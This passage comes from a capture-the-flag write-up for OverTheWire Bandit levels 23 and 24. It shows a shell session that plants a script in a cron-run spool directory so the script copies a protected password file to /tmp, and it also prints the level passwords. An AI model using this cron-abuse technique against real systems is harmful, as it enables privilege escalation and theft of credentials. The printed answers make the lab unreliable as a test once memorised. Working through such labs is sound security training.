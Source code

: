```bash
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/alex1234
bandit23@bandit:~$ cd /tmp/alex1234
bandit23@bandit:/tmp/alex1234$ vi script.sh

#!/bin/sh
#cat /etc/bandit_pass/bandit24 >> /tmp/alex1234/bandit24pass

bandit23@bandit:/tmp/alex1234$ chmod 777 script.sh 
bandit23@bandit:/tmp/alex1234$ cp script.sh /var/spool/bandit24
bandit23@bandit:/tmp/alex1234$ chmod 777 /tmp/alex1234/
# Wait 1 minute
bandit23@bandit:/tmp/alex1234$ ls
bandit24pass  script.sh
bandit23@bandit:/tmp/alex1234$ cat bandit24pass 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

**Explanation:** The `cron` script execute and delete all scripts in **/var/spool/bandit24**. We just need to write our own script, copy it in **/var/spool/bandit24** and wait for the result. 
{: .notice--success}

## Bandit 24 Solution (coming soon)

A daemon is listening on port **30002** and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```bash
$ ssh bandit24@bandit.labs.overthewire.org -p 2220

# Just so you can keep going...
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

**Note:** After multiple attempts, I didn't found a valid solution yet. Still working on a viable script.
{: .notice--danger}
